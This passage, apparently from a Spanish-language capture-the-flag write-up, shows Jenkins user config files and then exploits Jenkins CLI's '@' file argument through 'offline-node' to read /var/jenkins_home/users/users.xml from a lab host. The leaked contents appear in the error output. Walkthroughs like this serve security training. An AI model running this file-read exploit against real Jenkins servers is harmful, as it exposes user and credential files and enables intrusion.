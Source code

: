```bash
      <emailAddress>oso@oso.com</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1337.v60b_d7b_c7b_c9f">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1717790997968</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

```bash

jenkins@b794d2db7f54:~$ cat users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
<hudson.model.UserIdMapper>
  <version>1</version>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>oso</string>
      <string>oso_5157628474146071963</string>
    </entry>
  </idToDirectoryNameMap>
</hudson.model.UserIdMapper>jenkins@b794d2db7f54:~$ 

```

Entonces con esto podemos usar el exploit para ver ese archivo en esa ruta.

```bash

❯ java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ offline-node @/var/jenkins_home/users/users.xml
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```
